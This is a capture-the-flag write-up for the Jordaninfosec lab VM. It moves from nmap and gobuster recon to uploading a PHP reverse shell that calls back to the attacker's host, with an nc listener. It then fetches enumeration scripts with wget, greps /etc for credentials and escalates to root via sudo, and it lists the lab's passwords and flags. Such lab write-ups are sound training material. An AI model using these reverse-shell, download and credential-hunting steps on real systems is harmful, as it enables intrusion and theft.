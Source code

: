 ```yaml
---
layout: post
title: CTF Jordaninfosec
date:   2022-02-17:15:11 -0600
categories: CTF
tags: Linux
---
```


# netdiscovery
![](https://i.imgur.com/0Tczin5.png)
192.168.0.30

# nmap
```sh
nmap -sV -p- 192.168.0.30
```

![](https://i.imgur.com/948W0Tv.png)

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# gobuster


```sh
gobuster dir -t 100 -u http://192.168.0.30/ -w Documents/wordlist/directory-list-medium.txt
```

![](https://i.imgur.com/XAJINyC.png)

# First flag
http://192.168.0.30/flag/
The 1st flag is : {8734509128730458630012095}


# gobuster on uploaded_files
gobuster dir -t 100 -u http://192.168.0.30/uploaded_files -w Documents/wordlist/directory-list-medium.txt


# robots.txt
http://192.168.0.30/robots.txt

User-agent: *
Disallow: /
Disallow: /backup
Disallow: /admin
Disallow: /admin_area
Disallow: /r00t
Disallow: /uploads
Disallow: /uploaded_files
Disallow: /flag

# flag
192.168.0.30/admin_area/
https://i.imgur.com/nJdZs9h.png
	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
It's not realist... and too easy.

# Connect as admin to the web page
http://192.168.0.30/index.php

## Upload php revers shell 
https://github.com/pentestmonkey/php-reverse-shell
I upload my revershell.
 49 $ip = '192.168.0.21';  // CHANGE THIS
 50 $port = 4648;       // CHANGE THIS
 

## nc
nc -nlvp 4648

## open the file
http://192.168.0.30/uploaded_files/php-reverse-shell.php

## I have a shell
https://i.imgur.com/e71ZKtm.png

# Enum

## open http server
in my script directory
```sh
python2.7 -m SimpleHTTPServer
```

## Download them
```sh
wget http://192.168.0.21:8000/lin.py
wget http://192.168.0.21:8000/lse.sh
wget http://192.168.0.21:8000/pol.py
```

## lse.sh
https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
```sh
sh lse.sh
```


[*] sys050 Can root user log in via SSH?................................... yes!

# /var/www/html/hint.txt
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)

The 3rd flag is : {7645110034526579012345670}

# Find the hidden file
```sh
find / -name ".*" 2> /dev/null
```
/home/technawi/.sudo_as_admin_successful
So I can use sudo with the user technawi

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#files-containing-passwords
```sh
grep --color=auto -rnw '/etc' -ie "technawi" --color=always 2> /dev/null

/etc/subgid:3:technawi:165536:65536
/etc/mysql/conf.d/credentials.txt:3:username : technawi
/etc/subuid:3:technawi:165536:65536
/etc/passwd:30:technawi:x:1000:1000:technawi,,,:/home/technawi:/bin/bash
/etc/group:5:adm:x:4:syslog,technawi
/etc/group:18:cdrom:x:24:technawi
/etc/group:21:sudo:x:27:technawi
/etc/group:23:dip:x:30:technawi
/etc/group:35:plugdev:x:46:technawi
/etc/group:49:lxd:x:110:technawi
/etc/group:54:technawi:x:1000:
/etc/group:55:lpadmin:x:115:technawi
/etc/group:56:sambashare:x:116:technawi
```

hehe
```ssh
cat /etc/mysql/conf.d/credentials.txt

The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```

# ssh
```sh
ssh technawi@192.168.0.30
3vilH@ksor
```
# sudo

```sh
sudo -l

[sudo] password for technawi: 
Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
```
Ok
```sh
sudo su
root@Jordaninfosec-CTF01:/home/technawi# id
uid=0(root) gid=0(root) groups=0(root)
root@Jordaninfosec-CTF01:/home/technawi# whoami
root

root@Jordaninfosec-CTF01:/home/technawi# cd /var/www/html
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt

The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....

```
It was too easy.
